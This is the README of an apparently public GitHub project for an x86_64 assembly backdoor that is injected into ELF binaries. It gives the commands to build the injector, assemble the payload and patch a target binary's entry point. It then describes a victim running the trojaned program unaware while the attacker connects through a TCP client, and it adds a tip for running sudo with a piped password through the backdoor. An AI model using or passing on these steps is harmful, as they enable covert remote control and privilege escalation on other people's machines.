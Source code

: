 # elf_backdoor

It is elf backdoor written in pure assembly language that works in **x86_64**

# Usage
## Attacker
First, in the backdoor/backdoor.s file,

you need to modify the statement `push 0x4049a0 ; jump to entrypoint` **to the original entry point of the target binary.**
### backdoor
```bash
$ gcc elfinject.c -o elfinject -lelf
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### backdoor_client
```
$ python3 tcpClient.py
```
## victim
If the victim downloads or acquires the file in any manner.
```
$ ./elftarget
```
The victim successfully uses the original program without any issues, but later, attackers exploit backdoors.

# Demo
## backdoor
![backdoor](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/84720f5f-7caf-45aa-b28a-00632b779317)

## backdoor_client
![client](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/29cf4cf6-bf88-456f-8cc2-052c8ae33f0c)

# Tips
## How to use sudo
```bash
$ python3 tcpClient
echo "password" | sudo -S <command>
```
